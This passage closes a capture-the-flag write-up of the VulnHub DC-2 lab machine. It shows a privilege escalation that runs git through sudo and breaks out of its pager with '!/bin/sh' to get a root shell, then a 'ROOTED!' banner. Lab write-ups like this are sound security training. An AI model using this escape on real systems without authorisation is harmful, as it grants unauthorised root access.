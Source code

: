 `sudo git -p help config` --> enter  
`!/bin/sh` --> enter  

---
---

## ROOTED!
![ROOTED!](/images/CTF/VulnHub/DC-Series//DC-2/DC-2-ROOTED.png "ROOTED!")


---

> Author: revsh3ll  
> URL: https://PivotTheNet.GitHub.io/dc-2/  

